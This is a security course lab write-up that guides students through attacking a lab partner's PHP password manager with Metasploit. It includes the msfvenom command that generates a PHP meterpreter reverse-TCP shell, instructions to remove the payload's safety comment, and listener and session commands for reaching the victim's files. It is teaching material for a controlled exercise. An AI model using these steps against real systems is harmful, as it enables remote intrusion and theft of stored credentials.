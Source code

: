 # Week 5 | Offensive

```
      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
  lOOOOOOOO.         ;d;         ,OOOOOOOOl
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
       .dOOo   .OOOOocccxOOOO.   xOOd.
         ,kOl  .OOOOOOOOOOOOO. .dOk,
           :kk;.OOOOOOOOOOOOO.cOk:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .
```

## Part 0: Adding our Sensitive Information

In the last lab, you were asked to create a new user account, create a new vault, and add some passwords along with sensitive information in the form of a .txt file. If you have not done this yet, please do so now as this will be the asset your lab partners are after when they hack your password manager.

### It is super important that you DO NOT delete volumes when redeploying your web application if you want to save the information you have added to your docker container.

You can think of the volumes in Docker as the storage used by each container. When we first spin up our web application, these volumes are generated and storage on your machine is allocated for each container.

When we create new user accounts, add passwords, and upload files, these are all stored within the volumes for our containers. This is why it is extremely important when we run redeploy to NOT delete these volumes.

It may also be more beneficial to run `start.py` and `stop.py` rather than the `redeploy.py` script as these will not delete any data we have added.


## Part 1: Setting up Metasploit.

Metasploit is a framework that allows penetration testers to identify, exploit, and validate vulnerabilities in a system. It includes an extensive set of tools specifically for penetration testing. We can use the tools to generate payloads that will allow us to easily attack a system.

We will be utilizing metasploit through a Docker container. In a "real" pen testing role, you may find it more beneficial to use metasploit via a virtual machine running Kali Linux, a distribution of Linux that includes a host of tools for offensive security (including metasploit)! For our purposes, a Docker container will allow us to quickly and easily access the tools we need.

1. First, we need to deploy a docker container running metasploit. Run the following command to pull the metasploit image and spin up a container with that new image.

    ```
    docker run --rm -it -p 4444:4444 metasploitframework/metasploit-framework
    ```

    Your terminal should now be running the metasploit docker container! You should see something similar to the following output:

    ![metasploit contianer](/lab-writeup-imgs/metasploit_container.png)

    Two things to take note of, the ASCII art will most likely be different, and your LHOST should be printed at the bottom of the terminal (highlight in red in the image above). This is the IP address of the docker container running metasploit. You should take note of this IP address as we will need to use it during the lab.


## Part 2: Crafting our Payload

As mentioned above, metasploit comes with a suite of tools for us to use for pentesting and offensive security purposes. One of those tools being msfvenom. Msfvenom lets us generate customized payloads for our specific attack. We will be using msfvenom to easily craft the payload we will be using in this lab!

The payload we will be crafting will be built off of the `meterpreter` payload. This payload provides an interactive shell between the victim's machine and the attacker's machine. This shell will allow us to explore our target and execute commands on their device!

1. To generate our payload, we will use the following command:

    ```
    /usr/src/metasploit-framework/msfvenom -p php/meterpreter/reverse_tcp LHOST=<Your EXTERNAL IP address> LPORT=4444 -f raw
    ```

    - `-p php/meterpreter_reverse_tcp`: This specific payload builds the meterpreter payload in PHP, which is what we want since we know that the target is a PHP server. 

        The `reverse_tcp` part refers to the type of network communication method that this payload will establish. Essentially, we are creating forcing the victim's machine to connect to a service that will be running off of our machine, hence the 'reverse' part.

    - `LHOST=<Your EXTERNAL IP address> LPORT=4444`: We then set the `LHOST` and `LPORT` to match the IP address and the port that the victim will be connecting to.

        Since your target's password manager is running on their machine outside of your own internal docker network, the LHOSt must be set as your IP address, which you can find by running `ipconfig` or `ifconfig`.

    - `-f raw`: This specifies the payload should be 'raw' output, meaning it will just print to our terminal rather than being saved to a file.

2. Once you have run the command above, you should get a large output in your terminal. This is our payload! We can copy it and paste it into a `.txt` file on our machine. Make sure you save it as `reverse_tcp.php`, so that it can be executed as a PHP script.

    - Note that the payload will have a comment tag at the beginning. This is to ensure that the payload does not accidentally execute! We can remove this before saving so that the payload will run on our target machine.

3. Now, we need to somehow get this payload onto our victim's machine. Can you figure out a way to do this using their password manager?

## Part 3: Setting up our attacking machine
1. To select this payload, run the following command in the msfconsole container:

    ```
    use php/meterpreter/reverse_tcp
    ```

2. Once we have selected this payload, let's double check that all of our options are configured correctly. Run the following command to see all options we can configure:

    ```
    options
    ```

    You should see two possible options, `LHOST` and `LPORT`.

    - LHOST: This is the address of the machine the victim will try to connect to during our attack. It is the address that should have the service "**L**istening" for a connection. This should match the LHOSt you saw in part 1.
    - LPORT: This is the port the service will be "**L**istening" on.

    These two options should already be configured by default to match your metasploit container's IP address and the appropriate port (4444).

3. Next, we will run the following command to start the service. It will be listening on port 4444 for incoming connections from our victim's machine.

    ```
    exploit
    ```

## Part 3: Attacking the Password Manager >:)

By now, you have the service listening within your metasploit container and have successfully placed the payload on the target's machine.

We need to now somehow execute the payload to establish a connection from the target's device to our attacking machine. Can you think of a way that we can run the payload?

Once you have successfully executed the payload, you can list all of your sessions running in metasploit with the following command:

```
sessions -l
```

You should see your sessions listed with a session ID. To interact with the session of interest, enter the following command with the session ID:

```
sessions -i <ID>
```

You should now be able to access the shell connected with the victim's machine! Start exploring the target and see if you are able to extract the information from their personal vault!

## For credit:

Take a screenshot of the shell session you established, along with the .txt file uploaded by your lab partner!